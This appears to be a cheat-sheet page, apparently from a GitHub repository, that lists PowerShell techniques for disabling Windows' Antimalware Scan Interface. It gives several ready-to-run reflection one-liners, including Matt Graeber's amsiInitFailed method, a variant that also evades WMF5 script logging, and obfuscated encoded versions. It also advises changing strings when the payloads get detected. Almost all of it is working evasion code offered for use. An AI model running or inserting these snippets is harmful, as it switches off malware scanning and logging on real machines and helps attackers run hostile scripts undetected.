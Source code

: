#### Forcing errors

Force an error
```powershell
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)

[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)
```

#### Graeber Reflection
[Matt Graeber's Reflection](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/) utilizes Powershell to set the response value of ASMI to  `$null`

Matt Graebers Reflection method
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Matt Graebers Reflection method with WMF5 autologging bypass
```powershell
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)
```

Matt Graebers second Reflection method
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

If patched, just change up the strings/variables. 
```powershell
$a = 'System.Management.Automation.A';$b = 'ms';$u = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$u))
$field = $assembly.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static')
$field.SetValue($null,$true)
```
Requires Credit!

If patched, just change up the strings/variables. 
```powershell
$A="5492868772801748688168747280728187173688878280688776"
$B="8281173680867656877679866880867644817687416876797271"
function C($n, $m){
[string]($n..$m|%{[char][int](29+($A+$B).
    substring(($_*2),2))})-replace " "}
$k=C 0 37; $r=C 38 51
$a=[Ref].Assembly.GetType($k)
$a.GetField($r,'NonPublic,Static').SetValue($null,$true)
```
@TihanyiNorbert (Based on the original work of Matt Graeber @mattifestation script)
